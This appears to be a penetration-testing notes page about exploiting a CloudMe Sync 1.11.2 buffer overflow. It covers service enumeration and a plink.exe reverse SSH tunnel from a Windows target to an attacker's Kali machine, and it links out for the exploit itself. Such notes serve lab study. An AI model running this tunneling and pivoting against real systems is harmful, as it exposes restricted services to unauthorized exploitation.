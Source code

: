 # CloudMe Sync 1.11.2 Buffer Overflow + SEH

CloudMe Sync is a synchronization application which syncs local storage with the cloud storage. It listens on port 8888 by default.

1. Check if the service is running on port 8888

        C:\> sc queryex type=service state=all | find /i "CloudMe"
        C:\> netstat -ano | find "8888"

2. Create remote SSH tunnel between Windows and Kali Linux in order to access the restricted service remotely
   1. Start SSH service in Kali

            sudo service ssh start
            sudo ss -antlp | grep sshd

   2. Check architecture of Windows machine, and download the right version of [plink.exe](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html)

            wmic os get osarchitecture

   3. Check firewall rules

            netsh firewall show config

   4. Create SSH tunnel by initiating tunneling from the Windows machine

            plink.exe -ssh -l <KaliUSERNAME> -pw <KaliPASSWORD> -N -R <KaliIP>:<KaliPORT>:127.0.0.1:8888 <KaliIP>

   5. Follow steps mentioned [here](https://bufferoverflows.net/practical-exploitation-part-1-cloudme-sync-1-11-2-bufferoverflow-seh/)

## References

* https://bufferoverflows.net/practical-exploitation-part-1-cloudme-sync-1-11-2-bufferoverflow-seh/
* https://medium.com/@informationsecurity/remote-ssh-tunneling-with-plink-exe-7831072b3d7d
* https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html
* https://www.fireeye.com/blog/threat-research/2019/01/bypassing-network-restrictions-through-rdp-tunneling.html